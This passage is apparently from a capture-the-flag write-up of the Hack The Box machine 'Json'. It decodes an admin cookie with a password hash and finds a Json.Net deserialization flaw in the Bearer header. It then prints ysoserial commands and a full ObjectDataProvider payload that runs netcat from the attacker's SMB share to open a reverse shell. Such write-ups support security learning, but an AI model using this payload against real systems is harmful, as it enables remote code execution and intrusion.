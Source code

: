 ![](/assets/images/htb-writeup-json/serial1.png)

Next, I look at the `OAuth2` cookie set after I authenticate:

![](/assets/images/htb-writeup-json/oauth.png)

Decoded it is: `{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}`

When the main page accesses the `/api/Account` endpoint, I see it also sends the same base64 encoded value in the `Bearer` header:

![](/assets/images/htb-writeup-json/bearer.png)

I'll modify the `Bearer` header and see if I can make it error out. To start with, I'll use the following payload which is invalid JSON:

`echo '{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3",thisisinvalid___aaaaaaa}' | base64 -w0`

![](/assets/images/htb-writeup-json/json500.png)

Ahah! So now I know that the web application is deserializing the `Bearer` content using the Json.Net library. I remember reading about deserialization vulnerabilities recently during my OSWE studies. There was also another HTB box called Arkham who used a deserialization vulnerability but with Java.

There's a nice tool already written that generates deserialization payloads using gadgets found in common librairies and frameworks. For this box, I'll use the ObjectDataProvider gadget with the Json.net formatter. I'll attempt to get a reverse shell by executing netcat through an SMB share on my box.

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444" -o raw
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c \\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

I'll need to base64 encode the payload so I use the -o base64 flag instead:

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444" -o base64
ew0KICAgI[...]Dg5J30NCn0=
```
